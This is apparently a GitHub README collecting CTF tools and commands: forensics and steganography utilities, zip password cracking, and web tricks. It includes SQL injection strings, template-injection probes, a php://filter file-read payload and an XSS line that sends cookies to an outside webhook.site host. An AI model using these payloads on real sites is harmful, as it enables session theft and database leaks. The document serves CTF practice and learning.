 # CTF tools & Resources
This Repo Contains Write-UPs for all Tasks 
HERE ARE SOME EXTREMELY USEFUL TOOLS AND COMMANDS
### [Forensics, Linux Tools and Commands](#linux)
### [Web](#web)
### [Misc](#misc)
### [OSINT](#osint)

## <a name = "linux">Basic linux tools and Commands</a>
* binwalk -e <filenam> : //Extracts hidden files
* steghide extract -sf <filename> : //Extracts hidden text in the image
* xxd <file name> : //Prints the Hex version of file
* grep "element" //finds the element
* strings <filename> // gives the strings hidden in the file
* hexedit <filename> //hexeditor
* java -jar stegsolve.jar 
* pngcheck <filename> //checks if the png file is broken
* tar -xvf <filename> // untars the tar files
* cat temp.txt | cut -d'(' -f2 | sort -n | cut -d"'" -f2 | tr -d "\n" ; echo      
 // used this command to obtain the flag from the java file having flag characters written in an scrambled order 
* fcrackzip -u -l 10-11 -c a1 -p IEC2019000 findME.zip
* fcrackzip -u -D -p rockyou.txt crackme.zip
 
// this command helps us to find the password to a zip. -u : unzip -l: range of length -c: type of elements a1 means alphabets and numbers -p:sample password 
* ltrace ./file     is a helphul command to see the functioning of a program
also use strace
* cat /proc/(process id)/             
we can see all files running in the process with given process id.
* exiftool for meta data
* use tcpflow -r file  for pcap
* zsteg :- another great stego tool
* john the ripper :- tool for password cracking

## <a name = "web">Web</a>
### SQL injections
* curl "url" --data "username=admin&password='+or+1=1--" && echo 
this command will find the information to username admin stored in database (SQL injection).
* try admin'-- for SQLi.
* '||( SELECT secret FROM user WHERE username = 'a' )||'
* 1 union select 1,TABLE_NAME, 3,4 from INFORMATION_SCHEMA.TABLES     input this code in the info bar of a website for sql attack using injection.
* Basic Injection  if there is a hidden info in the data base then to leak the data type 'OR''=' in the info bar.
----------------------------------------------------------------------------------------------------------------------------------------------------------------
*  Postman great tool for web challs
* Robots -->>> url/robots.txt (shows hidden info)
* If a website uses flask, then try using {{ 7*7 }}to see its working, then use {{ config }}, {{request}},{{session}}, {{g}} in the text fields.
* To post requests to php from terminal use curl -X POST "url"
* use hydra to brute force username and passwords.
* use dirsearch to find hidden directories.
* use nmap to see available ports.
* Padding Oracle attacks :- https://phantominfosec.wordpress.com/2018/12/23/hackthebox-web-challenge-i-know-mag1k/
* Using XSS to get cookies :- (<)img src=x onerror="javascript:document.location='https://webhook.site/b53c0b7c-a7e5-4998-8cd1-6da504438ef7?c='+document.cookie"></img>
// i have done (<) here to avoid the error
* reading source code :- ?file=php://filter/convert.base64-encode/resource=/var/www/html/*filename*

## <a name = "misc">Misc</a>
* Esoteric languages(pikalang, 2dfuck, brainfuck) use tio.run website, Malboge an esoteric language that looks like base 85.
*  git show -1 filename.txt > to compare against the last revision of file
   git show -2 filename.txt > to compare against the 2nd last revision of file
* Use this site for substitution https://quipqiup.com/
* Detect the DMFT Tools http://dialabc.com/sound/detect/index.html
* Online Stegnographic Decoder :- https://futureboy.us/stegano/decinput.html

## <a name ="osint">OSINT, Investigation and CyberWeapons</a>
* sherlock - track down profiles of a username.
* nmap - see all the ports of a network
* noisy -  create a lot of random traffic

